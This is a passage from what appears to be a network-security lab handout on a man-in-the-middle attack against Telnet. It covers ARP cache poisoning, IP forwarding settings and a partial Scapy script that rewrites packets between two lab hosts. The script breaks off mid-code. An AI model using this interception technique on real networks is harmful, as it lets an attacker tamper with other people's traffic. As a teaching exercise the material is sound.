 3. **Wireshark:**  
   Include these packets in your capture file.

---

## 3. Task 2: MITM Attack on Telnet

In this part you will intercept a Telnet session between Host A (client) and Host B (server) and modify the data in transit.

### Preparation

1. **ARP Cache Poisoning:**  
   Make sure you have established the ARP poisoning between Host A and Host B so that their communication flows through Host M.

2. **IP Forwarding:**  
   - Initially, disable IP forwarding on Host M to validate that the attack is visible:
     ```
     sysctl net.ipv4.ip_forward=0
     ```
   - Test connectivity (for example, use `ping` between A and B).
   - Once verified, enable IP forwarding to allow the Telnet session to function normally:
     ```
     sysctl net.ipv4.ip_forward=1
     ```

### Implementing the Sniff-and-Spoof Program

1. **Objective:**  
   Write a Python script (using Scapy) that:
   - Intercepts TCP packets on the Telnet session.
   - For packets from Host A to Host B, modifies the content by replacing every instance of the character `"Q"` with `"Z"`.
   - For packets from Host B to Host A, simply forwards the packet unchanged.

2. **Steps:**  
   - Start with the provided skeleton:
     ```python
     from scapy.all import *
     
     IP_A = "10.9.0.X"  # update with your actual IP for A
     MAC_A = "xx:xx:xx:xx:xx:xx"  # update with A’s MAC
     IP_B = "10.9.0.Y"  # update with your actual IP for B
     MAC_B = "xx:xx:xx:xx:xx:xx"  # update with B’s MAC
     
     def spoof_pkt(pkt):
         if IP in pkt and pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
             # Make a copy of the packet and prepare it for modification.
             newpkt = IP(bytes(pkt[IP]))
             del(newpkt.chksum)
             del(newpkt[TCP].chksum)
             if pkt[TCP].payload:
                 data = pkt[TCP].payload.load
                 # Replace 'Q' with 'Z' (ensure you handle single character scenarios)
                 newdata = data.replace(b"Q", b"Z")
                 send(newpkt / newdata)
             else:
                 send(newpkt)
         elif IP in pkt and pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
             newpkt = IP(bytes(pkt[IP]))